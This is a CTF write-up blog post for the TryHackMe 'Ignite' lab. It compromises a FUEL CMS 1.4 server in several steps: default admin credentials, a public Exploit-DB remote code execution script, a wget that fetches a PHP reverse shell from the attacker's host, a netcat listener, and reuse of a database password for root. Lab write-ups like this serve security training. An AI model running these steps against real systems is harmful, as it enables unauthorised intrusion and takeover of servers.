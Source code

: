 ```yaml
---
layout: post
title: TryHackMe - Ignite
date: 2023-05-07 11:58
category: ctf
author: Akymos
tags: [ctf, tryhackme]
anchor: true
description: "A new start-up has a few issues with their web server."
thumb: "/assets/images/ctf-ignite/00.png"
---
```


<hr>
<h2>Table of Contents</h2>
<nav class="toc">
* toc
{:toc}
</nav>
<hr>
<div class="pb-1" />

## Room info
- **Name**: Ignite
- **Link**: [https://tryhackme.com/room/ignite](https://tryhackme.com/room/ignite){:target="_blank"}
- **Subscription**: Free
- **Difficulty**: Easy
- **Description**: {{ page.description }}

### Questions
1. User.txt
2. Root.txt

## Step 0 - Recon
### Nmap
```bash
$ nmap -sC -sV 10.10.178.117 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-07 12:03 CEST
Nmap scan report for 10.10.178.117 (10.10.178.117)
Host is up (0.043s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Welcome to FUEL CMS
| http-robots.txt: 1 disallowed entry 
|_/fuel/
|_http-server-header: Apache/2.4.18 (Ubuntu)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.28 seconds
```

### Gobuster
```bash
$ gobuster dir -w /usr/share/seclists/Discovery/Web-Content/common.txt -u http://10.10.178.117 -q                
/.hta                 (Status: 403) [Size: 292]
/.htaccess            (Status: 403) [Size: 297]
/.htpasswd            (Status: 403) [Size: 297]
/0                    (Status: 200) [Size: 16597]
/@                    (Status: 400) [Size: 1134]
/assets               (Status: 301) [Size: 315] [--> http://10.10.178.117/assets/]
/home                 (Status: 200) [Size: 16597]
/index.php            (Status: 200) [Size: 16597]
/index                (Status: 200) [Size: 16597]
/lost+found           (Status: 400) [Size: 1134]
/offline              (Status: 200) [Size: 70]
/robots.txt           (Status: 200) [Size: 30]
/server-status        (Status: 403) [Size: 301]
```

## Question 1 - User.txt
We can see that the website is running on FUEL CMS 1.4. The homepage is a default installation page. We can see that the admin panel is located at `/fuel`.
![Ignite - Fuel index](/assets/images/ctf-ignite/01.png){:class="post-image"}
The default credentials are `admin:admin`. We can now login to the admin panel but nothing interesting here. 
![Ignite - Fuel admin](/assets/images/ctf-ignite/02.png){:class="post-image"}

Let's search for exploits on FUEL CMS 1.4. We can find a RCE exploit
[https://www.exploit-db.com/exploits/50477](https://www.exploit-db.com/exploits/50477){:target="_blank"}
```bash
$ python 50477.py -u http://10.10.178.117
[+]Connecting...
Enter Command $echo "foo bar" > test.txt  && ls -lha
systemtotal 52K
drwxrwxrwx 4 root     root     4.0K May  7 03:30 .
drwxr-xr-x 3 root     root     4.0K Jul 26  2019 ..
-rw-r--r-- 1 root     root      163 Jul 26  2019 .htaccess
-rwxrwxrwx 1 root     root     1.4K Jul 26  2019 README.md
drwxrwxrwx 9 root     root     4.0K Jul 26  2019 assets
-rwxrwxrwx 1 root     root      193 Jul 26  2019 composer.json
-rwxrwxrwx 1 root     root     6.4K Jul 26  2019 contributing.md
drwxrwxrwx 9 root     root     4.0K Jul 26  2019 fuel
-rwxrwxrwx 1 root     root      12K Jul 26  2019 index.php
-rwxrwxrwx 1 root     root       30 Jul 26  2019 robots.txt
-rw-r--r-- 1 www-data www-data    0 May  7 03:30 test.txt


Enter Command $
```
Nice, we have can write files on the server.
![Ignite - Fuel RCE](/assets/images/ctf-ignite/03.png){:class="post-image"}

Let's upload a reverse shell.
```bash
Enter Command $wget http://10.8.32.129/rs.php && ls -lha
systemtotal 60K
drwxrwxrwx 4 root     root     4.0K May  7 03:33 .
drwxr-xr-x 3 root     root     4.0K Jul 26  2019 ..
-rw-r--r-- 1 root     root      163 Jul 26  2019 .htaccess
-rwxrwxrwx 1 root     root     1.4K Jul 26  2019 README.md
drwxrwxrwx 9 root     root     4.0K Jul 26  2019 assets
-rwxrwxrwx 1 root     root      193 Jul 26  2019 composer.json
-rwxrwxrwx 1 root     root     6.4K Jul 26  2019 contributing.md
drwxrwxrwx 9 root     root     4.0K Jul 26  2019 fuel
-rwxrwxrwx 1 root     root      12K Jul 26  2019 index.php
-rwxrwxrwx 1 root     root       30 Jul 26  2019 robots.txt
-rw-r--r-- 1 www-data www-data 2.6K Apr 16 07:24 rs.php
-rw-r--r-- 1 www-data www-data    8 May  7 03:31 test.txt


Enter Command $
```
And we have a shell.
```bash
$ nc -lnvp 9001           
listening on [any] 9001 ...
connect to [10.8.32.129] from (UNKNOWN) [10.10.178.117] 53586
Linux ubuntu 4.15.0-45-generic #48~16.04.1-Ubuntu SMP Tue Jan 29 18:03:48 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 03:33:37 up 35 min,  0 users,  load average: 0.02, 0.48, 0.71
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
sh: 0: can't access tty; job control turned off
```
After the stabilisation of the shell, we can find the user flag in the home directory.
```bash
www-data@ubuntu:/$ cd /home/www-data/
www-data@ubuntu:/home/www-data$ ls -lha
total 12K
drwx--x--x 2 www-data www-data 4.0K Jul 26  2019 .
drwxr-xr-x 3 root     root     4.0K Jul 26  2019 ..
-rw-r--r-- 1 root     root       34 Jul 26  2019 flag.txt
www-data@ubuntu:/home/www-data$ cat flag.txt
```

## Question 2 - Root.txt
We can try with LinPEAS to find some interesting information, but nothing useful.
We can try to find some SUID binaries, but nothing useful.

*WE ARE STUCK...*

After a while, I decided to check the installation / configuration of FUEL CMS, maybe we can find something interesting.
```bash
www-data@ubuntu:/var/www/html/fuel/application/config$ tail -30 database.php 
$active_group = 'default';
$query_builder = TRUE;

$db['default'] = array(
        'dsn'   => '',
        'hostname' => 'localhost',
        'username' => 'root',
        'password' => '***********',
        'database' => 'fuel_schema',
        'dbdriver' => 'mysqli',
        'dbprefix' => '',
        'pconnect' => FALSE,
        'db_debug' => (ENVIRONMENT !== 'production'),
        'cache_on' => FALSE,
        'cachedir' => '',
        'char_set' => 'utf8',
        'dbcollat' => 'utf8_general_ci',
        'swap_pre' => '',
        'encrypt' => FALSE,
        'compress' => FALSE,
        'stricton' => FALSE,
        'failover' => array(),
        'save_queries' => TRUE
);

// used for testing purposes
if (defined('TESTING'))
{
        @include(TESTER_PATH.'config/tester_database'.EXT);
}
```
Let's try to use that password to switch to root.
```bash
www-data@ubuntu:/var/www/html/fuel/application/config$ su       
Password: 
root@ubuntu:/var/www/html/fuel/application/config#
```
*IT WORKS!*

Let's find the root flag.
```bash
root@ubuntu:/var/www/html/fuel/application/config# cat /root/
.bash_history  .cache/        .profile       
.bashrc        .nano/         root.txt       
root@ubuntu:/var/www/html/fuel/application/config# cat /root/root.txt 
````
